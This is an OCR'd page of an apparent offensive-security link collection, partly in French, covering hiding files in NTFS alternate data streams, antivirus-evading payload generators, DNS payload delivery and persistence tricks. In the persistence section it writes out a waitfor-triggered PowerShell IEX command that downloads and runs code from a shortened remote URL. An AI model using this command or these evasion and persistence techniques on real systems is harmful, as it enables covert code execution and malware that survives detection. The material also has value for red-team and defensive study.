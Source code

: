 -	How to Create Linux Self Extracting Archive https://n0where.net/how-to-create-self-extracting-archive/ https://gist.github.com/coh7eiqu8thaBu/f2cafb13c1961b6a73853060c987c8af or http://megastep.org/makeself/makeself-2.1.5.run
-	Hide file on ADS http://www.darknessgate.com/security-tutorials/date-hiding/ntfs-alternate-data-streams/
	-	Can be hide in TeamViewer Log : ![How to hide file on ADS](https://pbs.twimg.com/media/DTVR9a5XcAAIZYC.jpg)
-	[Yet another way to hide from Sysinternals’ tools](http://www.hexacorn.com/blog/2018/01/04/yet-another-way-to-hide-from-sysinternals-tools/)
-	[Hiding Metasploit Shellcode to Evade Windows Defender](https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/)

Download Payload or Payload Generator
-------------------------------------

-	HTML/JS drops & executes base64 encoded executable with PowerShell > HTML/JS no AV detection > Dropped EXE detected https://www.hybrid-analysis.com/sample/3b66f0172d5700924f4749db2b7a6f07eb5b5a18033dc379e48d938789f6bf75?environmentId=100 https://twitter.com/cyb3rops/status/907236450248413190?s=09
-	An example of infected Word doc : http://blog.talosintelligence.com/2017/10/cyber-conflict-decoy-document.html
-	A tool to create a JScript file which loads a .NET v2 assembly from memory - https://github.com/tyranid/DotNetToJScript
-	CACTUSTORCH: Payload Generation for Adversary Simulations https://www.mdsec.co.uk/2017/07/payload-generation-with-cactustorch/ / https://www.mdsec.co.uk/2017/07/payload-generation-with-cactustorch/
-	Undetectable Windows Payload Generation with extras Running on Python2.7 https://github.com/nccgroup/winpayloads
-	HERCULES is a special payload generator that can bypass antivirus softwares : https://github.com/EgeBalci/HERCULES
-	Download Payload with DNS https://www.peerlyst.com/posts/transferring-backdoor-payloads-by-dns-aaaa-records-and-ipv6-address-damon-mohammadbagher
-	Public malware techniques used in the wild: Virtual Machine, Emulation, Debuggers, Sandbox detection. https://github.com/LordNoteworthy/al-khaser
-	CHAOS allow generate payloads and control remote Windows systems. [GitHub](https://github.com/tiagorlampert/CHAOS)

Persistance
-----------

-	Persistance one shot\`\`\`

	Dans une première invite de command :
	=====================================

	waitfor persist && PowerShell IEX (IWR http://bit.ly/L3g1t).Content

Dans une autre cela déclence la commande précédente et télécharge la charge
===========================================================================

waitfor /s 127.0.0.1 /si persist

example de charge (http://bit.ly/L3g1t\)
========================================

Write-Host SUCCESSFULLY EXECUTED POWERSHELL CODE FROM REMOTE LOCATION -ForegroundColor Green\`\`\`* Obfuscates compiled java code to make it harder to reverse engineer. https://github.com/CalebWhiting/java-asm-obfuscator* Word add-in persistence found in the wild : "%APPDATA%\Microsoft\word\startup\w.wll" https://mymalwareparty.blogspot.com/2018/01/word-add-in-persistence-found-in-wild.html* Persistence using GlobalFlags in Image File Execution Options – Hidden from Autoruns.exe https://oddvar.moe/2018/04/10/persistence-using-globalflags-in-image-file-execution-options-hidden-from-autoruns-exe/
